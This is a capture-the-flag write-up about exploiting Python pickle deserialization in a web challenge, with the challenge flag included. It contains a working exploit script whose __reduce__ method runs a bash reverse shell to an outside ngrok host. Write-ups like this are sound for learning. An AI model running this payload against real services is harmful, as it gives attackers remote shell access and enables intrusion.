 

Page opened to two simple boxes:



Entering random text gets me an error




While googling that I find it is given by a python module called Pickle. Which makes sense considering the title of the challenge references something else that's pickled. Googled around until I found a python script to help https://davidhamann.de/2020/04/05/exploiting-python-pickle/.

I modified it with my own unpickled script to get a reverse shell. Gets me a base64 string I put into the box and while having ngrok and netcat listening, I got a reverse shell then read the flag.

```python
    1 	import pickle
    2 	import base64
    3 	import os
    4 	
    5 	
    6 	class RCE:
    7 		def __reduce__(self):
    8 			return (os.system, ('bash -c "bash -i >& /dev/tcp/2.tcp.ngrok.io/11352 0>&1"',))
    9 	
   10 	
   11 	if __name__ == '__main__':
   12 		pickled = pickle.dumps(RCE())
   13 		print(base64.urlsafe_b64encode(pickled))
```

Flag: SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}

